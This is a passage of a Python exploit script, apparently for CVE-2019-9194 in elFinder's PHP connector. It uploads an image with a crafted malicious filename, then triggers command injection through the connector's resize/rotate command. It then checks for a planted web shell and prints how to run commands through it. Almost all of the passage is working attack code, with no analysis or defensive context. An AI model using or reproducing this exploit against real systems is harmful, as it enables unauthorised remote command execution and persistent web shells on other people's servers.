 ```python
            files = {
                'upload[]': (malicious_filename, self.create_malicious_image(), 'image/jpeg')
            }
            
            data = {
                'cmd': 'upload',
                'target': 'l1_',
            }
            
            connector_url = f"{self.target_url}/php/connector.minimal.php"
            print(f"[+] Uploading to: {connector_url}")
            
            response = self.session.post(connector_url, files=files, data=data)
            
            if response.status_code == 200 and '"added"' in response.text:
                print("[+] File uploaded successfully")
                
                # Parse response to get file hash
                resp_data = json.loads(response.text)
                if 'added' in resp_data and len(resp_data['added']) > 0:
                    file_hash = resp_data['added'][0]['hash']
                    print(f"[+] File hash: {file_hash}")
                    
                    # Trigger command injection by rotating image
                    print("[+] Triggering command injection...")
                    rotate_data = {
                        'cmd': 'resize',
                        'target': file_hash,
                        'degree': '90'
                    }
                    
                    self.session.post(connector_url, data=rotate_data)
                    
                    # Check if webshell was created
                    webshell_url = f"{self.target_url}/files/{self.webshell_name}"
                    shell_check = self.session.get(webshell_url)
                    
                    if shell_check.status_code == 200:
                        print(f"[!] SUCCESS! WebShell created at: {webshell_url}")
                        print(f"[+] Usage: {webshell_url}?cmd=id")
                        return True
                    else:
                        print("[-] WebShell creation failed")
                        return False
                        
            else:
                print("[-] Upload failed")
                return False
                
        except Exception as e:
            print(f"[-] Exploitation failed: {e}")
            return False

def main():
    if len(sys.argv) != 2:
        print("Usage: python3 cve-2019-9194.py <target_url>")
        print("Example: python3 cve-2019-9194.py http://target.com/elfinder")
        sys.exit(1)
    
    target_url = sys.argv[1]
    
    exploit = ElFinderExploit(target_url)
    exploit.banner()
```